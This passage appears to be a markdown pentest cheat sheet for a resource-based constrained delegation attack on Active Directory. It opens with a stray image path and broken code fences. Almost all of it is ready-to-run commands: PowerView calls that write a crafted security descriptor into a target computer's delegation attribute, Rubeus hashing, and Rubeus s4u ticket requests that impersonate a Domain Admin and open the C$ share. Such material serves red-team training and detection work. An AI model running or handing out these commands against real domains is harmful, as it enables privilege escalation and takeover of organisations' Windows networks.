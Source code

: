 ````
```

#### Get the object SID
- If already had a user with SPN use that user, otherwise use the computer you made!
```
Get-DomainComputer FAKE01
Get-DomainUser <USER>
```

#### Creata a new raw security descriptor
- Use the SID from previous command
``` 
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;<SID>)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

#### Modify the target computer object
```
Get-DomainComputer <TARGET COMPUTER> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

#### Check if modification worked
```
Get-DomainComputer <TARGET COMPUTER> -Properties 'msds-allowedtoactonbehalfofotheridentity'
```

#### Check if raw security descriptor is refering to the correct machine
```
$RawBytes = Get-DomainComputer <TARGET COMPUTER> -Properties 'msds-allowedtoactonbehalfofotheridentity' | Select-Object -ExpandProperty msds-allowedtoactonbehalfofotheridentity
(New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0).DiscretionaryAcl
Get-DomainComputer <SID>
```

#### Calculate RC4 hash for the user/computer object
- Only if you made a computer or you dont know the hash of the user
```
.\Rubeus.exe hash /password:123456 /user:fake01 /domain:<DOMAIN>
```

#### Select user to impersonate
- Preferably a user that would be admin on the machine (Check BloodHound).
- User should not be part of "Protected Users group" or accounts with the "This account is sensitive and cannot be delegated" right
```
Get-DomainUser | ? {!($_.memberof -Match "Protected Users")} | select samaccountname, memberof
```

#### Impersonate another user (For example DA)
- Impersonate any user except those in groups "Protected Users" or accounts with the "This account is sensitive and cannot be delegated" right
```
.\Rubeus.exe s4u /user:<USER OR COMPUTER$> /rc4:<HASH> /impersonateuser:<TARGET USER DA> /msdsspn:cifs/<TARGET COMPUTER> /ptt

.\Rubeus.exe s4u /user:<USER OR COMPUTER$> /rc4:<HASH> /impersonateuser:<TARGET USER DA> /msdsspn:host/<TARGET COMPUTER> /altservice:ldap,rpc,http,cifs,host /ptt
```

#### Access the C Disk if user is local admin to the target machine (When impersonating DA)
```
dir \\<COMPUTER>\C$
```
````
